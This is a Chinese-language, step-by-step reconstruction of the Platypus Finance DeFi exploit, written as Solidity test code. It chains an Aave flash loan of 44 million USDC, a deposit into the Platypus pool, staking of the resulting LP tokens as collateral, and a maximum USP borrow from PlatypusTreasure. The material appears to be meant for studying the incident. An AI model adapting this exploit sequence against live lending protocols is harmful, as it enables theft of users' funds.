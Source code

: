 ```solidity
    function testExploit() public {

        aaveV3Pool.flashLoanSimple(address(this), address(USDC), 44_000_000e6,  abi.encode(""), 0);

    }
```

### - step2：向 `platypusPool` 提供流动性， 44,000,000个USDC，得到LP Token

```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        USDC.approve(address(aaveV3Pool),   amount + premium);//44,022,000e6变成44_022_000e6
        USDC.approve(address(platypusPool), amount);
        platypusPool.deposit(address(USDC), amount, address(this), block.timestamp+1000);//
        return true；
 }
```

### - step3：将LP Token存入 `masterPlatypusV4` 作为抵押物

```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
         //step3
        uint256 LP_USDC_myBalance = LP_USDC.balanceOf(address(this));
        LP_USDC.approve(address(masterPlatypusV4), LP_USDC_myBalance);
        masterPlatypusV4.deposit(4, LP_USDC_myBalance);
        
        return true;
 }
```

### - step4：向 `platypusTreasure` 借款USP，`platypusTreasure` 会检查 step3 用户的抵押金额。

```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
        PlatypusTreasure.PositionView memory positionView = platypusTreasure.positionView(address(this), address(LP_USDC));
        uint256 borrowLimitUSP = positionView.borrowLimitUSP;
        platypusTreasure.borrow(address(LP_USDC), borrowLimitUSP);
        
        return true;
 }
```